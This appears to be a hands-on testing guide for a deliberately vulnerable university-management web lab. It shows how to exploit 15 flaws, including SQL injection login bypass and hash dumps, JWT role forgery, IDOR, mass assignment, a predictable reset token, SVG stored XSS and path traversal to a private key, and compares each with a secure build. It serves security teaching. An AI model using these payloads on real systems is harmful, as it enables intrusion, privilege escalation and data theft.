







# Manual testing guide — try every vulnerability by hand

This walks through all **15** vulnerabilities using the browser (and its DevTools
console) against the running lab. For each one: do it on the **vuln** build and watch
it work, then repeat on the **secure** build and watch it fail.

- Vulnerable build: **http://127.0.0.1:3000**
- Secure build: **http://127.0.0.1:3001**

### Seed accounts

| Username | Password | Role | Notes |
|----------|----------|------|-------|
| `admin` | `admin123` | admin | id 1 |
| `prof_smith` | `teach123` | professor | teaches PROG, DB, ALGO (id 2) |
| `prof_jones` | `teach456` | professor | teaches MATH, PHYS, NET (id 3) |
| `alice` | `password1` | student | id 4, enrolled in everything |
| `bob` | `hunter2` | student | id 5 |
| `carol` | `qwerty` | student | id 6 |

### The console helper

A few attacks need a request the UI doesn't send (an extra field, a crafted header).
The easiest "manual" way is the browser **DevTools Console** (F12 → Console) after you
log in. Paste this once per tab — it sends requests as the logged-in user:

```js
T = localStorage.token;
call = (m, p, b) => fetch(p, {
  method: m,
  headers: { Authorization: 'Bearer ' + T, ...(b ? {'Content-Type':'application/json'} : {}) },
  ...(b ? { body: JSON.stringify(b) } : {})
}).then(r => r.json()).then(j => (console.log(j), j));
```

Then e.g. `call('GET', '/api/me')`.

---

## 1. SQL injection — login bypass

1. Go to the **login page** (vuln build, logged out).
2. Username: `admin'-- ` (note the trailing space), Password: anything.
3. **Sign in** → you're in as **admin** with no password.

**Secure:** same input → "invalid username or password".

## 2. SQL injection — certifications (read other students / dump hashes)

Log in as `alice`. In the Console:

```js
call('GET', "/api/certifications?student_id=0 OR 1=1");          // every student's certs
call('GET', "/api/certifications?student_id=0 UNION SELECT id,role,username,password_hash,hash_scheme,NULL,full_name FROM users");
```

The second returns every user's **MD5 hash** (in the `grade`/`title` fields).

**Secure:** the `OR 1=1` / `UNION` requests return `403` (and a student may read only
their own id).

## 3. Broken JWT — forge an admin token (Burp Suite)

The vuln build decodes the JWT but **never verifies the signature**
(`jwt_decode_vuln`, [app.py:64-65](app.py#L64-L65)), and the admin endpoint trusts the
`role` claim straight from the token ([app.py:611-612](app.py#L611-L612)). So you can
flip `role` to `admin` in your own token and the server believes it.

Point Firefox at Burp (Proxy listening on `127.0.0.1:8080`) and log in as **alice** /
`password1`.

1. **Grab an authenticated request.** In **Proxy → HTTP history**, find any request
   carrying an `Authorization: Bearer …` header — `GET /api/me` is sent right after
   login. Right-click it → **Send to Repeater**.
2. **Aim it at the admin endpoint.** In Repeater, change the first line to:
   ```
   GET /api/admin/users HTTP/1.1
   ```
   **Send.** You get **`403 {"error":"admins only"}`**. That already proves the token is
   accepted — you're authenticated, just not admin yet. The signature bought the server
   nothing; it only needs the `role` claim to say `admin`.

   

3. **Forge the role.** Open the **JSON Web Token** tab (Burp's JWT editor / the "JWT
   Editor" extension). The payload reads:
   ```json
   { "sub": 4, "username": "alice", "role": "student", "iat": …, "exp": … }
   ```
   Change `"role": "student"` → `"role": "admin"`. **Leave the signature alone — do NOT
   re-sign.**

   

4. **Send.** Now **`200 OK`** and the full user list, **including every
   `password_hash`**:
   ```json
   { "users": [ { "id":1, "username":"admin", "role":"admin",
                  "password_hash":"0192023a7bbd73250516f069df18b500", … }, … ] }
   ```

   

**The signature does not matter.** The vuln build never checks it, so a valid signature
is not required — and neither is *any* signature: delete the whole third segment
(everything after the last `.`, leaving just the trailing dot) and the same request
still returns `200`.



> To forge the **whole UI** into an admin session (not just this one endpoint), also
> change `"sub": 4` to `"sub": 1` (admin's id). The app's `GET /api/me` loads the user
> by `sub` ([app.py:183-186](app.py#L183-L186)), so the sidebar and dashboard turn
> admin. For dumping `/api/admin/users`, changing `role` alone is enough.

**Secure build (:3001):** the signature *is* verified (`jwt_decode_secure`), so the
edited token returns **`401`**; and even a genuine student token gets **`403`** here,
with hashes never returned.

## 4. IDOR — read anyone's private chat

Log in as `alice`. Open **Chat**, click any conversation. The address bar shows
`…#chat?chat_users[0]=4&chat_users[1]=5`. Change it to:

```
#chat?chat_users[0]=1&chat_users[1]=2
```

You now read the private **admin ↔ prof_smith** conversation — including the line
"the grading portal master password is `Adm1n_Gu@rd14n_2026`".

**Secure:** the same URL shows `forbidden`.

## 5. Privilege escalation at registration (Burp Suite)

The sign-up form only sends `full_name`, `username`, `email`, `password` — never a
role. But the vuln build reads a `role` from the request body if one is present, and
trusts it:

```python
# app.py:140-143
if MODE == "vuln":
    role = b.get("role", "student")   # VULN: "student" is only the default — a client-supplied role wins
else:
    role = "student"                  # SECURE: server fixes the role, body ignored

# app.py:146-148 — whatever `role` ends up being is written straight into the new row:
conn.execute("INSERT INTO users (..., role, ...) VALUES (?,?,?,?,?,?,?)",
             (username, h, salt, scheme, role, b.get("full_name"), b.get("email")))
```

So a new account is `student` **only because the form doesn't send `role`** — that's
the `b.get("role", "student")` default. Add the field yourself and you choose your own
role.

Steps:

1. **Proxy → Intercept → "Intercept is on"**, with Firefox pointed at Burp.
2. On the **registration page**, fill it in (e.g. Full name `ahmed`, Username `ahmed`,
   Email `ahmed@campus.edu`, Password `ahmed123`) and click **Create account**.
3. Burp catches **`POST /api/register`**. The JSON body has no role:
   ```json
   { "full_name":"ahmed", "username":"ahmed", "email":"ahmed@campus.edu", "password":"ahmed123" }
   ```

   

4. **Add the role** — edit the body to:
   ```json
   { "full_name":"ahmed", "username":"ahmed", "email":"ahmed@campus.edu", "password":"ahmed123", "role":"admin" }
   ```
   **Forward** the request.

   

5. **Log in** as `ahmed` / `ahmed123`. The dashboard greets you with **"Administrator
   dashboard"** and the admin menus (Users, Documents, Integrity) appear — the new
   account is a full admin.

   

**Is this "mass assignment"?** Same family (OWASP: Broken Access Control / Mass
Assignment), but not the textbook form. Strict mass assignment is when the server
blindly binds *every* field from the request onto the record; here the code reads one
specific field it should never accept from a client (`role`). The purest mass-assignment
case in this lab is **[#13 (profile update)](#13-mass-assignment--become-admin-from-your-profile)**,
where the vuln writes *any* key you send onto your user row. Registration is the
narrower, single-field version of the same mistake: trusting client input to set a
privileged attribute.

**Secure build (:3001):** `role` is forced to `student` ([app.py:143](app.py#L143)) no
matter what you send — forward the same tampered request and the new account is still a
plain student.

## 6. Broken access control

**6a — a student changes their own grade.** As `alice`:

```js
call('POST','/api/grades', {course_id:1, student_id:4, grade:'20.00'});   // Mathematics
```

Dashboard now shows 20/20. **Secure:** `403` (not authorized to grade this course).

**6b — a student mints a fake diploma.** As `alice`:

```js
call('POST','/api/certifications', {student_id:4, title:'PhD in Computer Science', grade:'A+', issued_date:'2026-01-01'});
```

It appears on the Certifications page as **valid**. **Secure:** `403` (only the
course's professor may issue, to enrolled students, recognised types only).

**6c — admin list trusts the token.** With the forged admin token from #3,
`call('GET','/api/admin/users')` returns everyone **including `password_hash`**.
**Secure:** `403` for anyone who isn't really admin, and hashes are never returned.

## 7. Insecure password hashing (unsalted MD5)

Take any hash leaked in #2/#6c and reverse it — unsalted MD5 is instant:

```bash
python3 -c 'import hashlib; print(hashlib.md5(b"admin123").hexdigest())'
# 0192023a7bbd73250516f069df18b500  == the dumped admin hash
```

**Secure:** `sqlite3 sms_secure.db "SELECT hash_scheme,salt FROM users"` shows
`pbkdf2` with a per-user salt; the hashes don't reverse.

## 8. Cryptography — signatures & encryption at rest

**8a — forged certificate looks real (vuln).** After #6b, the Certifications page
marks the fake PhD **valid**. **Secure:** a certificate inserted/edited directly in
the DB shows **✗ invalid** and **not on chain**.

**8b — plaintext messages at rest.** In a shell at the project root:

```bash
sqlite3 sms_vuln.db   "SELECT body FROM messages LIMIT 3;"   # readable plaintext
sqlite3 sms_secure.db "SELECT body FROM messages LIMIT 3;"   # AES-GCM ciphertext
```

## 9. No integrity anchoring — silent grade tampering

Simulate someone who reached the database (shell at project root):

```bash
sqlite3 sms_vuln.db   "UPDATE grades SET grade='20.00' WHERE student_id=4 AND course_id=1;"
sqlite3 sms_secure.db "UPDATE grades SET grade='20.00' WHERE student_id=4 AND course_id=1;"
```

- **Vuln:** log in as `alice` → Dashboard shows 20/20, nothing flags it.
- **Secure:** `alice`'s Dashboard shows the tampered value struck through in red with
  the **verified** grade beside it, and the average is unchanged. Log in as `admin` →
  the **Integrity** page (and the sidebar badge) shows the tampering, with
  **Restore** / **Restore all from ledger** to rewrite the DB back to the anchored
  value.

## 10. SQL injection — course search (stacked write)

Log in as `alice`, open **Course search**.

- **Read / dump hashes** — search for:
  `' UNION SELECT id, password_hash, role FROM users -- `
  (hashes appear in the `code` column).
- **Write a grade with no admin, no Gradebook** — search for:
  `%'; UPDATE grades SET grade='20.00' WHERE student_id=4 AND course_id=1; -- `
  The search shows no results, but the Dashboard Math grade is now 20/20.

**Secure:** both return no matching courses and change nothing.

## 11. Stored XSS — announcements

Log in as `prof_jones` (or `admin`). Open **Announcements**, publish one with the
**message** body:

```html

```

On the **vuln** build the script runs for everyone who opens Announcements or the
Dashboard — including the admin. **Secure:** the body shows as literal text and never
executes.

## 12. IDOR — read another student's document

Log in as `alice`, open **Documents**, submit a request (see #15 for the upload). Your
request shows a reference like `DOC-2026-0003`. Now open another student's document by
id — in the address bar:

```
#documents?doc=1
```

or in the Console `call('GET','/api/documents/1')`. **Vuln:** you see someone else's
document (name, e-mail, reference). **Secure:** `forbidden`.

## 13. Mass assignment — become admin from your profile

The Profile form only edits name/email/phone/address, but the vuln build writes any
field you send. As `alice`, in the Console:

```js
call('POST','/api/profile', {full_name:'Alice Anderson', role:'admin'});
location.reload();
```

You're now admin (the **Users** menu appears). **Secure:** `role` is ignored — you
stay a student.

## 14. Predictable password-reset token — account takeover

On the **login page**, click **Forgot your password?**, enter `carol`, **Send reset
token**.

- **Vuln:** the token is shown to you (and it's just `md5("reset:carol")[:12]`). Enter
  a new password → **Set new password** → log in as `carol` with it.
- **Secure:** no token is shown (it would be e-mailed / is in the server log), and a
  guessed MD5 token is rejected. Only the random token works, once, for 15 minutes.

You can confirm the vuln token is predictable:
`python3 -c 'import hashlib;print(hashlib.md5(b"reset:carol").hexdigest()[:12])'`.

## 15. Unrestricted file upload + path traversal + IDOR (documents)

Log in as `alice`, open **Documents**.

**A — upload a non-PDF (stored XSS).** Create `evil.svg`:

```bash
printf '<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>' > evil.svg
```

Pick a type, choose `evil.svg`, **Submit request**. On the **vuln** build it's
accepted; click **My upload** → it opens inline and the script runs. **Secure:** the
upload is rejected ("only PDF files are accepted").

**B — path traversal (read server secrets).** Note your new document's id (from the
Console: `call('GET','/api/my/documents')`), then:

```js
fetch('/api/documents/ID/download?name=../../keys/eth_issuer.key',
  {headers:{Authorization:'Bearer '+localStorage.token}}).then(r=>r.text()).then(console.log);
```

**Vuln:** it prints the on-chain **issuer private key** (try `../../sms_vuln.db` for
the whole database). **Secure:** the `name` parameter is ignored.

**C — IDOR on downloads.** As `bob`, download `alice`'s file:
`call('GET', …)` won't show the bytes, so use fetch:
`fetch('/api/documents/<aliceDocId>/download?which=request',{headers:{Authorization:'Bearer '+localStorage.token}})`.
**Vuln:** `200` (you get it). **Secure:** `403`.

**Admin side (same upload flaw).** Log in as `admin`, open **Documents**, and on a
pending request click the file picker + **Approve + upload PDF**. The vuln build
accepts any file for the "issued" document too; the secure build enforces PDF-only +
random name + attachment download.

---

### Resetting after testing

Changes persist. To get back to a clean seed:

```bash
RESET_DB=1 docker compose up          # fresh DBs + fresh contract + re-anchor
# then recreate without the flag so persistence resumes:
HOST_UID=$(id -u) HOST_GID=$(id -g) docker compose up -d --force-recreate --no-deps secure vuln
```
